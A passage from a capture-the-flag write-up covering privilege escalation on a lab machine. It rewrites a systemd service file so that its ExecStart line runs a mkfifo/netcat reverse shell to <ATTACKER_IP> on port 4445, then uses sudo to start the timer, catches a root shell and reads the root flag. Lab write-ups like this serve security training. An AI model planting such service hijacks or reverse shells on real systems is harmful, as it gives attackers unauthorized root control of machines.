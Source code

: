 ![5a7b40a55ad7af17413f0af34210a466.png](/resources/54b3e302ae0b45ba8eed71f92b9c934a.png)

For the `vulnnet-job.service` file, we will use it to call a reverse shell back to us on port 4445:

```sh
cat > /etc/systemd/system/vulnnet-job.service << EOF
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer
 
[Service]
Type=forking
ExecStart=/bin/sh -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 4445 >/tmp/f'
 
[Install]
WantedBy=multi-user.target
EOF
```

![2704b4cba9d24fd776d4d82da6f2848a.png](/resources/126bac91f7214caf959177c1110ac04a.png)

In a new terminal, start the Netcat listener on port 4445:

```sh
nc -nvlp 4445
```

Back on the victim machine, we will restart the service:

```sh
sudo -u root /bin/systemctl daemon-reload
sudo -u root /bin/systemctl start vulnnet-auto.timer
```

When we check our Netcat listener on port 4445, we should have a connection as the user `root`:

![c23f6dbda06d838ca08ae87f34177fa2.png](/resources/f9bb2e1825634b86a2dfa4a349e3ff71.png)

We can ger the root flag in `/root/root.txt`:

```sh
cat /root/root.txt
```

![f6ac53afcdda2d4ad5b1a3ddcd170f8d.png](/resources/fe166c7264cf43fe9127cd2cf50761ad.png)
